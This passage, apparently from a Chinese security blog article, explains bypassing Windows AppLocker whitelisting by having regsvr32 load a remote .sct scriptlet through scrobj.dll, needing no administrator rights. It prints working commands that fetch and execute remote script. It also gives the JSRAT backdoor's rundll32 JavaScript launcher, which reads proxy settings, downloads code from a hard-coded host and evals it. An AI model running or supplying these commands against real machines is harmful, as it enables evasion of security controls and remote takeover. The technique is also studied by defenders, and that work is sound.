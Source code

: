或者

```
regsvr32 /s https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct

```

如果转换思路，就会发现这种方式可以绕过应用程序白名单的过滤

0x05 进阶用法
=========

* * *

介绍到这里，你也许会认为，通过注册COM组件来绕过应用程序白名单的过滤得需要管理员权限，这会是一个鸡肋。

但是，**Casey**发现了更高级的方法：

```
不需要管理权限，同时也不需要写入注册表

```

也许回头看这个技巧很简单，但是

**能想到大家想不到的，这就不简单**

既然可以通过注册控件来绕过白名单过滤，那么通过卸载应该也可以，而且**卸载控件的操作不需要管理员权限，也不需要写入注册表**所以参数如下即可：

```
regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll

```

如图，普通用户权限，开启Windows AppLocker，成功执行js代码，弹出计算器，前面介绍的JSRAT的应用方法也可以用这种方式执行

![enter image description here](http://drops.javaweb.org/uploads/images/376c6ad1aa81fb72f5b8557188b2a6a2f4cdc925.jpg)

0x06 补充
=======

* * *

补充另一个sct的应用方法 前不久更新了JSRAT的内容，添加了自动识别代理进行通信的功能，因此JSRAT的启动代码变得更长：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");w=new%20ActiveXObject("WScript.Shell");try{v=w.RegRead("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet%20Settings\\ProxyServer");q=v.split("=")[1].split(";")[0];h.SetProxy(2,q);}catch(e){}h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

```

这样不仅对实际使用带来不便，同时也影响了在快捷方式下的应用：

快捷方式支持的最大字符长度为260，而JSRAT的启动代码远超260，详细问题描述可见：

[https://github.com/3gstudent/Javascript-Backdoor/issues/3](https://github.com/3gstudent/Javascript-Backdoor/issues/3)
